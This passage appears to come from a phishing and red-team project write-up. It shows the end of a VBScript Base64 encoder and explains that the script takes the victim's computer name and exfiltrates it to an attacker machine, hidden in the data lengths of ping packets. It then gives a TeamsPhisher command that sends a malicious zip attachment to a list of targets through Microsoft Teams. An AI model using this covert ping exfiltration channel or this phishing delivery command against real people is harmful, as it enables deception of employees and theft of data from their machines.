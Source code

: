         If ipos < dataLength Then
            p3 = bytes(ipos)
            ipos = ipos + 1
            a = a * 256 + (p3 And 255)
        Else
            p3 = 0
            a = a * 256
        End If

        output(opos) = Mid(base64Chars, (a \ 262144) + 1, 1)
        opos = opos + 1

        output(opos) = Mid(base64Chars, ((a \ 4096) And 63) + 1, 1)
        opos = opos + 1

        output(opos) = Mid(base64Chars, ((a \ 64) And 63) + 1, 1)
        opos = opos + 1

        output(opos) = Mid(base64Chars, (a And 63) + 1, 1)
        opos = opos + 1

        a = 0
    Loop

    If dataLength Mod 3 = 1 Then
        output(opos - 2) = padding
    ElseIf dataLength Mod 3 = 2 Then
        output(opos - 1) = padding
    End If

    CustomBase64Encode = Join(output, "")
End Function


Function StrToByteArray(str)
    Dim i, byteArray()
    ReDim byteArray(Len(str) - 1)

    For i = 1 To Len(str)
        byteArray(i - 1) = AscB(Mid(str, i, 1))
    Next

    StrToByteArray = byteArray

End Function
```

The end goal of this script is to extract the computer name  (to identify who got phished) and encode it to Base64 then take every letter and it's ASCII value, the ASCII value will then be inserted inside the ping command as the length of the data section of the ping.
On the attacker machine we will have a program taking the length of the data and coverting it to the original message.

---

### Automation Tests using TeamPhisher

we installed the following packages with pip ```
pip3 install msal```
```pip3 install colorama ```

Using the account associated with the Microsoft business license it is possible to insert a list of targets(targets.txt), a message(message.txt) and the malicious file as an attachment(bilancio.zip).

**POC**

```shell
python3 teamsphisher.py -u [REDACTED].onmicrosoft.com -p '[REDACTED]' -l targets.txt -a /home/kali/Desktop/bilancio.zip -m message.txt --log
```
